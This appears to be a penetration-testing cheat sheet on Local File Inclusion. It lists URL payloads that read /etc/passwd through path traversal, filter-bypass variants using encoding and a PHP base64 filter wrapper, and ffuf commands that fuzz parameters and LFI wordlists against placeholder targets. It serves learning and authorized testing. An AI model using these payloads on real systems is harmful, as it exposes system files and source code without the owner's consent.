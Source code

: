 # Local File Inclusion

Local File Inclusion is an attack that abuses web apps by tricking the server to expose data such as server files or run scripts such as web shells. Often times they are used to exploit a vulnerable parameter such as "/index.php?display=dark" which isn't sanitized. The hacker often times will replace that parameter (in this case dark) with malicious code such as "/etc/passwd" which will dump the contents of that file onto the webpage.

## Basics

```
/index.php?mode=/etc/passwd			# no path traversal
/index.php?mode=/../../../etc/passwd		# with path traversal and name prefix
/index.php?mode=./mode../../../../etc/passwd	# path traversal and approved path
```

## Bypasses

In order to evade common sanitization techniques, we can wrangle our LFI to slip past them.

```
/index.php?mode=....//....//....//etc/passwd						# bypassing path traversal filters
/index.php?mode=php://filter/read=convert.base64-encode/resource=config			# bypassing by using PHP with a base64 filter
/index.php?mode=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64	# bypassing filters using URL encoding 
```

## Automation

Using Ffuf, we can easily automate the process of LFI. There are many LFI wordlists, but we can use some of SecLists wordlists to help.

### Fuzzing Parameters

For recon, we can fuzz the page's parameters to figure out which one we can exploit.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<TARGET_IP>:<TARGET_PORT>/index.php?FUZZ=test' -fs <BYTES>
```

### Fuzzing Potential LFI Exploits

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<TARGET_IP>:<TARGET_PORT>/index.php?mode=FUZZ' -fs <BYTES>
```

